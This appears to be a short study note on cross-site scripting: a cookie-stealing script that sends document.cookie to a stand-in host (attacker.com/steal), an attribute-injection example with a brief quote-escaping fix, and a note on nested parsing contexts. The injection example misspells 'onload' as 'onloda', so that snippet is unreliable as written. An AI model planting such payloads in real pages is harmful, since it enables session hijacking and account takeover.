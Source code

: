 # session hijacking with xss

```
<script type="text/javascript">
	new Image().src =
		'https://attacker.com/steal?cookie=' + document.cookie
</script>
```
# Dangerous HTML attributes

```
<img src='x.png' alt = 'DATA' />
```
- if you put *DATA= example' onloda='alert(document.cookie)*
this is result

```
<img src='x.png' alt = 'example' onloda='alert(document.cookie)' />
```
- how to fix???
- change *'* and *"* to &apos;, &quot;

# Beware nesting and parsing chain

- ex1

```
<div onclick="setTimeout('doStuff(¥'USER_DATA_HERE¥')', 1000)"></div>

<script>
	let someValue = 'USER_DATA_HERE'
	setTimeout("doStuff('" + someValue + "')", 1000)
</script>
```
